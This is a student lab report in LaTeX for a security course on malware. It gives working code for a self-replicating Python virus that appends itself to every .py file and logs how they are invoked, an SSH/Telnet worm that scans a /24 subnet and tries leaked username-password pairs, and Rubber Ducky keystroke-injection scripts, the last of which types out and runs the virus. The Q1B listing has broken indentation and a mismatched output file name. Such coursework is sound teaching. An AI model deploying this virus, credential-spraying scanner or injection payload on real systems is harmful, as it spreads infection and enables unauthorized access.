\documentclass{article}
\usepackage[utf8]{inputenc}

\title{Lab 2: Malware (with Rubber-Ducky)}
\author{Chen, Benny and Annadurai, Nithila}
\date{October 14, 2022}
 
\usepackage{color}
\usepackage{amsthm}
\usepackage{amssymb} 
\usepackage{amsmath}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{graphicx}
\usepackage[hidelinks]{hyperref}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}

\begin{document}

\maketitle

\section*{Question 1}

\subsection*{Part A}

First write a Python script, Q1A.py, that reads the files 
in the current (working) directory, and outputs a file containing 
the names of all .py files, each on a separate line.
\\\\
We can create a script uses the os module to get the current working directory,
and then uses the listdir function to get a list of all files in the
current directory. It then uses a list comprehension to get a list of
all files that end with ".py". It then writes the list of files to a
file called Q1A.out.

\begin{lstlisting}[language=Python]
import os
import sys

if __name__ == '__main__':
    directory = os.getcwd()
    files = os.listdir(directory)
    py_files = [file for file in files if file.endswith(".py")]
    with open("Q1A.out", "w") as f:
        for file in py_files:
            f.write(file + "\n")
\end{lstlisting}



\subsection*{Part B}
Next, write another script, Q1B.py, that receives as parameter 
the name of a .py file in the current directory (including the .py), 
e.g., x.py. Next, Q1B.py checks if the file contains a Python script, 
and if so, if the script does not yet contain the Virus. If both checks 
are Ok, Q1B re-writes the file (x.py), so that the new “x.py” will 
contain a Python script with the same functionality as of the original x.py, 
except that the new script will also perform the following simple spyware 
payload functionality. Specifically, whenever the script in the new “x.py” is run, 
it would append, to the end of a file called Q1B.out, a line containing the entire 
command line used to invoke it, i.e., the file/script name (“x.py”) followed by the 
arguments (parameters) with which the script (“x.py”) was run, if any. If Q1B.out does 
not exist when the new “x.py” is run, then “x.py” should create Q1B.out.
\\\\
We can create a script for this problem by following the same steps as
in part A. We can get all the files in the directory like before and put them
in a list. We can then use a list comprehension to get all the files that end
with ".py". We can then check every file in the list to see if it contains
the virus by checking if the file contains the string "Q1B.out". If it does
then we can skip that file. If it does not then we can open the file and
append to the end of the file the commands to write the exececuted command
to the Q1B.out file. 

\begin{lstlisting}[language=Python]
import os
import sys

if __name__ == '__main__':
directory = os.getcwd()
files = os.listdir(directory)
py_files = [file for file in files if file.endswith(".py")]
for file in py_files:
    with open(file, "r") as f:
        lines = f.readlines()
        for line in lines:
            if "Q1B.out" in line:
                break
        else:
            with open(file, "a") as f:
                f.write("import sys\n")
                f.write("with open('Q1C.out', 'a') as f:\n")
                f.write("   f.write('\\n')\n")
                f.write("   f.write(str(sys.argv))\n")
\end{lstlisting}

\subsection*{Part C}
Finally, write the virus. This would be another Python script, 
Q1C.py. Q1C.py will infect every .py script in the current directory, 
e.g., x.py. By `infection’ we mean that when the modified script “x.py” 
would be run, it would retain their original functionality (of original x.py), 
but also have two additional functionalities. The first additional functionality 
(the payload) is a spyware functionality similar to what Q1B did, i.e., whenever 
the modified script “x.py” is run, it will append the entire command line used to 
invoke it to the end of a file called Q1C.out. The second additional functionality 
is an infection functionality, namely, the modified script will also have the same 
functionality as Q1C.py, modifying all .py scripts in the directory in which it runs, 
by adding the same spyware functionality and infection functionality. Q1C 
(and the modified scripts) should not modify scripts which were already 
been `infected’ by this `virus’. 
\\\\
Like the previous part, we can get all the files in the directory and put them
in a list, get all the files that end with ".py", and then check every file
in the list to see if it contains the virus by checking if the file contains
the string "Q1C.out". The change for this part is that we also write the 
whole file of the script to the target script so it copies the whole script
to the target script, thereby replecating and infecting it.

\begin{lstlisting}[language=Python]
import os
import sys
if __name__ == '__main__':
    directory = os.getcwd()
    files = os.listdir(directory)
    py_files = [file for file in files if file.endswith(".py")]
    curr = open(directory + "/Q1C.py", "r")
    currlines = curr.read()
    curr.close()
    for file in py_files:
        with open(file, "r") as f:
            lines = f.readlines()
            for line in lines:
                if "Q1C.out" in line:
                    break
            else:
                with open(file, "a") as f:
                    f.write("\nimport sys\n")
                    f.write("with open('Q1C.out', 'a') as f:\n")
                    f.write("   f.write('\\n')\n")
                    f.write("   f.write(str(sys.argv))\n")
                    f.write(currlines)
\end{lstlisting}

\section*{Question 2}
In this question, you will be writing a simple worm, Q2worm.py. 
Your simple worm will be a Python program, that uses the SSH and 
Telnet protocols to find vulnerable machines and infect them 
(some machines may support SSH, some Telnet, some both). 
Specifically, your worm will look for machines which has a 
user/password from the list of `exposed’ username-password pairs 
which you are given, in the file Q2pwd (in the Lab2 directory). 
Search for machines in the subnet 172.16.48.0/24, i.e., IP 
addresses in the form 172.16.48.x where x is between 0 and 255. 
Once your worm finds such a machine (and vulnerable account), 
you should copy the value in the  file Q2secret from the home 
directory of the account, to your `own’ VM, in file Q2secrets in 
directory Lab2/Solutions. If you find several such machines, 
accounts and Q2secret files, put all of the `secrets’ in separate 
lines in your Q2secrets file. You should also copy Q2worm.py to 
the home directory of the vulnerable VM, and also to the Lab2/Solutions 
directory of `your’ VM.
\\\\
In order to find the vulnerable machines, first check for what 
IP addresses in the subnet are open first. After we find the
open IP addresses, we can then check if the IP address is vulnerable
by checking if the username and password are valid. If they are
valid, then we can copy the Q2secret file to our own VM and copy
the Q2worm.py file to the vulnerable VM and our own VM.

\begin{lstlisting}[language=Python]
import paramiko
import telnetlib
import socket

pairs, ssh_ips, telnet_ips = [],[],[]
with open('../Q2pwd', 'r') as f:
    for line in f:
        login = line.strip()
        pair = login.split(" ")
        pairs.append(pair)
    for i in range(256):
        a_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        a_socket.settimeout(1.0)
        location = '172.16.48.' + str(i)
        check = a_socket.connect_ex((location, 22))
        if check == 0:
            ssh_ips.append(location)
            print(f'SSH: {location}')
        a_socket.close()
    for i in range(256):
        a_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        a_socket.settimeout(1.0)
        location = '172.16.48.' + str(i)
        check = a_socket.connect_ex((location, 23))
        if check == 0:
            telnet_ips.append(location)
            print(f'TN: {location}')
        a_socket.close()
    for pair in pairs:
        for i in ssh_ips:
            try:
                client = paramiko.SSHClient()
                client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                client.connect(i, username=pair[0], password=pair[1])
                client.close()
                print("works")
            except:
                print("error")
    for pair in pairs:
        for i in telnet_ips:
            try:
                user = str(pair[0])
                pwd = str(pair[1])
                print(i, user, pwd)
                tn = telnetlib.Telnet(i)
                tn.read_until(b"login: ")
                tn.write(user.encode('ascii') + b"\n")
                if pwd:
                    tn.read_until(b"Password: ")
                    tn.write(pwd.encode('ascii') + b"\n")
                tn.write(b"ls\n")
                tn.write(b"exit\n")
                print(tn.read_all().decode('ascii'))
            except:
                print("error")
\end{lstlisting}

\subsection*{Secrets}
\begin{center}
    
\includegraphics[scale=.5]{images/Q2secrets.png}
\end{center}
\section*{Question 3}
Write a (simple) Rubber-Ducky script that opens Notepad, writes a 
Windows script (batch) file that echos your name(s), saves the file 
and runs it (to echo your names). 

\begin{lstlisting}
DELAY 1000
GUI r
DELAY 1000
STRING notepad.exe
DELAY 1000
ENTER
DELAY 1000
STRING @ECHO OFF
DELAY 1000
ENTER
STRING Annadurai, Nithila and Chen, Benny
DELAY 1000
ENTER
STRING PAUSE
DELAY 1000
ENTER
ALT f
DELAY 1000
STRING s
DELAY 1000
STRING Q3Script.bat
DELAY 1000
ENTER
GUI r
DELAY 1000
STRING \Users\CyberLab\Documents\Q3Script.bat
DELAY 1000
ENTER

\end{lstlisting}

\section*{Question 4}
Same as question 3, but this time your Rubber-Ducky script should 
write and run a Python script. 

\begin{lstlisting}
DELAY 1000
DEFAULTDELAY 500
GUI r
STRING notepad.exe
ENTER
STRING print('Annadurai, Nithila and Chen, Benny')
ENTER
ALT f
STRING s
STRING Q3Script.py
TAB
DOWNARROW
DOWNARROW
ENTER
ENTER
GUI r
STRING cmd.exe
DELAY 1000
ENTER
DELAY 1000
STRING cd ./Documents
ENTER
STRING python Q3Script.py
ENTER

\end{lstlisting}

\section*{Question 5}
Same as question 4, but this time your Python script, to be uploaded, 
saved and run, will be the simple Python virus of question 1 (Q1C.py). 

\begin{lstlisting}
DELAY 1000
DEFAULTDELAY 500
GUI r
STRING notepad.exe
ENTER
STRING import os
ENTER
STRING import sys
ENTER
STRING if __name__ == '__main__':
ENTER
STRING     directory = os.getcwd()
ENTER
STRING     files = os.listdir(directory)
ENTER
STRING     py_files = [file for file in files if file.endswith(".py")]
ENTER
STRING     curr = open(directory + "\Q5Script.py", "r")
ENTER
STRING     currlines = curr.read()
ENTER
STRING     curr.close()
ENTER
STRING     for file in py_files:
ENTER
STRING         with open(file, "r") as f:
ENTER
STRING             lines = f.readlines()
ENTER
STRING             for line in lines:
ENTER
STRING                 if "Q5Script.out" in line:
ENTER
STRING                     break
ENTER
STRING             else:
ENTER
STRING                 with open(file, "a") as f:
ENTER
STRING                     f.write("\nimport sys\n")
ENTER
STRING                     f.write("with open('Q5Script.out', 'a') as f:\n")
ENTER
STRING                     f.write("   f.write('\\n')\n")
ENTER
STRING                     f.write("   f.write(str(sys.argv))\n")
ENTER
STRING                     f.write(currlines)
ENTER
ALT f
STRING s
STRING Q5Script.py
TAB
DOWNARROW
DOWNARROW
ENTER
ENTER
GUI r
STRING cmd.exe
DELAY 1000
ENTER
STRING cd ./Documents
ENTER
STRING python Q5Script.py
ENTER    
\end{lstlisting}
\end{document}